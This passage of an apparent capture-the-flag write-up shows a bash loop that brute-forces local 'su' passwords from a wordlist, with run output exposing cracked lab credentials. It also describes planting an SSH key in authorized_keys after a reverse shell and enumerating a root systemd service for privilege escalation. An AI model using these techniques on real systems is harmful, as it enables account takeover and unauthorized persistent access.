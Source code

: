 ```bash

while IFS= read -r line #for each line
do
        brute $line & #try the password
        progressbar ${current} ${count} #update progress bar. TODO:calculate ETA
        current=$(( current + 1 )) #increment
done < $wordlist #read the wordlist

wait #wait for active jobs
```

Now let's run this and see what happens;

```
time bash su_brute_force.sh capitalized_words.txt
```

```bash
nobody@spring:/tmp$ time bash brute.sh capitalized_words.txt 
Cracking : [----------------------------------------] 0%
Creds Found! johnsmith:PrettyS3cureAccountPassword123.7%
Password: 
uid=1000(johnsmith) gid=1000(johnsmith) groups=1000(johnsmith)
Cracking : [##--------------------------------------] 7%Killed

real	5m15.051s
user	1m59.520s
sys	0m29.737s
```

creds: `PrettyS3cureAccountPassword123.`&#x20;

### Let The Web Server Continue

Remember that we got here through a reverse shell. While our reverse shell is running, it is blocking the execution of the webserver and we will need webserver for doing the rest of the box. So let's create ssh keys, put our public key into `/home/johnsmith/.ssh/authorized_keys`, close our reverse shell and ssh into the box as johnsmith using our private key.

### Finding Arbitrary File Write As Root

By enumerating the service on the system we find a non-regular service;

```
cat /etc/systemd/system/spring.service
```

```
[Unit]
Description=Spring Boot Application
After=syslog.target
StartLimitIntervalSec=0

[Service]
User=root
Restart=always
RestartSec=1
ExecStart=/root/start_tomcat.sh

[Install]
WantedBy=multi-user.target
```
